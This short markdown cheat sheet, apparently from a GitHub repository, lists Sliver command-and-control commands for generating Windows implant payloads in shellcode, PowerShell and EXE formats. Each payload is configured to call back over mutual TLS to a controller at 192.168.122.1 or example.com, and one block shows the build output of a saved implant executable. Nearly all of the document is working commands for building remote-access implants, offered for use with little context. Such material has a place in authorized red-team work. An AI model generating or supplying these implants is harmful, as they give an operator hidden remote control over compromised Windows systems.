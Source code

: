 # Payload Generation on Sliver for Windows

Here are some  commands for generating payloads on Sliver, specifically targeting Windows.

## Generating a Windows Shellcode Payload with sliver
Create a new profile called `win-shellcode` that uses mutual TLS and connects to the server IP **192.168.122.1** in **shellcode** format.
```bash
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode my_profile
sliver > generate --profile my_profile
```
## Generating a Windows PowerShell Payload with sliver
Create a new profile called `win-powershell`, generating a payload in PowerShell format for Windows. 
```bash
sliver > profiles new --mtls 192.168.122.1 --format powershell win-powershell my_profile
sliver > generate --profile my_profile
```

## Generating a Windows x86 Payload with sliver
Create a new profile called `win-exe-x86`, generating a payload in EXE format for Windows x86.
```bash
sliver > profiles new --mtls 192.168.122.1 --format exe win-exe-x86 --arch x86 my_profile
sliver > generate --profile my_profile
```

## Generation a Windows Payload with generate command in sliver
The following command generates a Sliver implant for a Windows target using mTLS for secure communication. The payload is saved as an executable (`.exe`) file on the specified directory, ready to be deployed on a 64-bit Windows system.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --os windows --arch x64

[*] Generating new windows/x64 Sliver binary
[*] Build completed in 00:00:08
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY.exe
```
